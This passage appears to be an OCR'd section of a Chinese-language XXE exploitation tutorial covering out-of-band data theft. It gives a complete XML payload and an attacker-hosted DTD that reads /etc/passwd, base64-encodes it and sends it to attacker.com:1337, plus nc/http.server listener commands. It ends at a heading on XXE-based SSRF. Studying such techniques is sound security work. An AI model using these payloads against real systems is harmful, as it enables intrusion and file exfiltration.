 *   **核心技术:** 利用**参数实体**嵌套，触发对外部 DTD 的请求，并在外部 DTD 中构造一个**新的实体声明**，该声明的 `SYSTEM` URI 包含要窃取的数据，并指向攻击者的服务器。

*   **Payload 结构:**
    **发送到目标服务器的 XML (OOB Payload):**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE data [
      <!ENTITY % remoteDTD SYSTEM "http://attacker.com/oob.dtd"> <!-- 1. 加载攻击者的 DTD -->
      %remoteDTD; <!-- 2. 解析攻击者的 DTD -->
      %fetchAndSend; <!-- 3. 引用在 oob.dtd 中定义的“执行”实体 -->
    ]>
    <data>ignored</data>
    ```
    **攻击者服务器上的 `oob.dtd` 文件:**
    ```dtd
    <!-- oob.dtd -->
    <!-- a. 定义参数实体 %file，读取目标文件并进行 Base64 编码 -->
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">

    <!-- b. 定义参数实体 %wrapper，其内容是另一个实体声明 -->
    <!-- 这个内部实体声明 (%send) 将在被解析时构造包含 %file 内容的 URL 并发起请求 -->
    <!-- 注意：内部的 % 符号需要进行参数实体编码，写为 &#x25; 或 % -->
    <!ENTITY % wrapper "<!ENTITY % send SYSTEM 'http://attacker.com:1337/?data=%file;'>">

    <!-- c. 引用 %wrapper 实体，这会导致内部的 %send 实体被声明 -->
    %wrapper;

    <!-- d. 定义一个“执行”实体 (名字任意, 如 fetchAndSend), 用于触发 %send -->
    <!-- 实际上, 在上一步 %wrapper 被解析时，%send 的声明已经包含了 %file 的解析和 URL 的构造 -->
    <!-- 并在 %send 被声明的同时可能就触发了请求 (取决于解析器行为) -->
    <!-- 有时需要显式引用 %send; 来确保触发, 但很多情况下 %wrapper; 就足够了 -->
    <!-- 为了兼容性，可以保留一个触发实体，虽然可能不是严格必需的 -->
    <!ENTITY % fetchAndSend ''>
    <!-- 或者，如果解析器需要显式触发外部请求 -->
    <!-- %send; -->
    ```

*   **执行流程:**
    1.  目标服务器解析 XML，遇到 `%remoteDTD;`，向 `http://attacker.com/oob.dtd` 发起请求。
    2.  服务器获取 `oob.dtd` 并开始解析其内容。
    3.  解析到 `%wrapper;` 时，其内容（`<!ENTITY % send SYSTEM 'http://attacker.com:1337/?data=%file;'>`）被处理。
    4.  在这个处理过程中，内部的 `%file;` 被解析，触发对 `file:///etc/passwd` 的读取和 Base64 编码。
    5.  然后，`%send` 实体被**声明**，其 `SYSTEM` URI 包含了编码后的文件内容。
    6.  **关键:** 很多 XML 解析器在**声明**一个包含外部引用的参数实体时，就会**立即尝试解析该 URI**以验证其有效性或获取资源。因此，声明 `%send` 的动作本身就触发了对 `http://attacker.com:1337/?data=<base64_data>` 的 HTTP GET 请求。
    7.  攻击者监听 `attacker.com` 的 1337 端口（例如使用 `python3 -m http.server 1337` 或 `nc -lvp 1337`），在其访问日志中找到包含 `?data=` 的请求。
    8.  提取 `data` 参数的值，进行 Base64 解码，即可获得 `/etc/passwd` 的内容。

*   **查看数据:** 主要依赖于监听攻击者控制的服务器（HTTP 服务器、DNS Log 服务器如 `dnslog.cn` 或 Burp Collaborator）的日志。有时，如果 OOB 请求失败或格式错误，相关的错误信息可能（不常见地）泄露在应用程序的响应中。

##### 3. 利用 XXE 进行 SSRF (Server-Side Request Forgery)
